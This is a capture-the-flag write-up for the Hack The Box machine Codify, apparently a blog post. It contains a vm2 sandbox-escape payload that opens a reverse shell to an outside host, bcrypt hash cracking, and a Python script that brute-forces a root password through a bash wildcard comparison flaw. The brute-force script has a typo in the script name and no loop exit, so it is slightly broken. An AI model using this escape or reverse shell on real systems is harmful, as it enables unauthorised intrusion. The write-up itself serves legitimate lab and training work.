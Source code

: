 Codify is an HTB machine, with a **Linux** box that hosts a sandboxed **NodeJS-environment**. We exploit a known **CVE** through which we **escape the sandbox** and gain **RCE**. In an **`sqlite3`** database we find **hashed** user credentials. We use **`johntheripper`** to crack this hash. We abuse a **`sudo`-misconfiguration** to run a backup **`bash`-script**. This script incorrectly uses pattern-matching to check for a valid user password, which allows us to **inject** a wildcard value and cheat this check. We create a **python** script that uses wildcards to extrapolate the root-password.

## Reconnaissance
We are given an IP-address: 10.10.11.239

When using a basic `nmap` scan to find any open ports, we find the following results:
```
# Nmap 7.94SVN scan initiated Thu Mar  7 13:45:31 2024 as: nmap -sC -sV -oN initial.nmap 10.10.11.239
Nmap scan report for 10.10.11.239
Host is up (0.016s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We check out the webserver first and add the IP-address and the domain name to our /etc/hosts file using `sudo sh -c 'echo "10.10.11.239 codify.htb" >> /etc/hosts'`

Visiting the website, we see that it is a sandboxed environment for running NodeJS javascript code. We also read that the technology used is called vm2 and when following the link we find that the version is 3.9.16. 

## Initial foothold

When googling for known exploits on vm2, we come accross [CVE-2023-32314](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100), a vulnerability that allows RCE on the machine hosting the vm2 service. The source includes a POC; we alter it and make the payload a reverse shell:

```javascript
const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/10.10.14.4/1234 0>&1'").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
```

Running this code on the codify.htb website with an `nc` instance listening on port 1234 indeed gives us a reverse shell as the user svc.

## Horizontal escalation
Listing the users in /etc/passwd tells us there is one (human) user account with the name joshua. 

Looking around in the home directory of the 'svc', where the source files for the javascript interpreter are found, we cannot find any credentials. Since the machine is hosting a webserver we can look at the /var/www/ directory for credentials as well. In there we indeed come across the source files for the website, containing html and js code. In the /var/www/contacts directory we also find a sqlite3 database file called tickets.db, which is probably the database that the website maintainers are migrating a ticket-system to (this was mentioned on the website as well). Opening it up with `sqlite3` we find that it contains a users table and in it we find the credentials 'joshua'::'$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'.

The password is obviously hashed, so we use `john` and the rockyou.txt password list to try and crack it. `john` recognizes the has to be of the bcrypt type and finds the password 'spongebob1' soon. Using `su` we find that this 'spongebob1' is also the password for his user account on the machine. We now have the user.txt flag.

## Escalation to root
Using `sudo -l` we see that joshua is allowed to run the /opt/scripts/mysql-backup.sh bash script as root. It is a script that backs up all of the mysql databases for the user root. While that functionality itself is of no use, the script contains the following snippet of code:

```bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
<...>
read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
if [[ $DB_PASS == $USER_PASS ]]
```

It uses `[[ $DB_PASS == $USER_PASS ]]` incorrectly because the right term should have double quotes surrounding it. Now it will patternmatch against the right term instead of doing a string comparison. See [source](https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29) for more info. Because of the patternmatching, we can use a wildcard `*` in the password, which will always match. Again, the script itself and its functionality is of no use, but we can use this approach to figure out the root password.

We write a script that incrementally adds a new character infront of `*` and if the script accepts, we add it to the characters we already know and start adding a new character. We keep doing this until no character matches anymore, at which point we've found the entire password. 

```python
import subprocess

def run_command(command):
    process = subprocess.Popen(command, stdout=subprocess.PIPE, shell=True)
    output, error = process.communicate()
    return output.decode('utf-8')

pwd = ""
chars = [chr(i) for i in range(48, 58)] + [chr(i) for i in range(65, 91)] + [chr(i) for i in range(97, 123)] # alphanumerical

while True:
    for char in chars:
        cmd = f"echo '{pwd}{char}*' | sudo ./myswl-backup.sh"
        output = run_command(cmd)
        if "confirmed" in output:
            pwd += char
            print(f"Password: {pwd}")
```

With this approach we find the password 'kljh12k3jhaskjh12kjh3'. We log in as the root user and get the root flag in /root/root.txt